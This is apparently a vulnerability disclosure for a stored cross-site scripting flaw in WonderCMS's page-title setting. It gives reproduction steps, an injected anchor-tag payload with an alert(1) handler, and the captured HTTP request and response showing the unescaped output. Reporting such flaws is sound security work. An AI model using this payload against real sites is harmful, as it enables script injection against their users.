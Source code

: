 ### Stored XSS

Steps to Reproduce:

1. Login and browse to "Settings"
2. "Current Page" > "Page Title"
3. Input following payload into "Page Title" ```"><a onmouseover=alert(1) style=display:block>XSS</a>```

```
// HTTP POST request

POST /wondercms HTTP/2
Host: 192.168.232.133
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[...]


[...]content=%22%3E%3Ca%20onmouseover%3Dalert(1)%20style%3Ddisplay%3Ablock%3EXSS%3C%2Fa%3E&target=pages&menu=&visibility=
```
```
// HTTP response

HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
[...]

[...]
	<meta name="title" content="Website title - "><a onmouseover=alert(1) style=display:block>XSS</a>" />
[...]
```
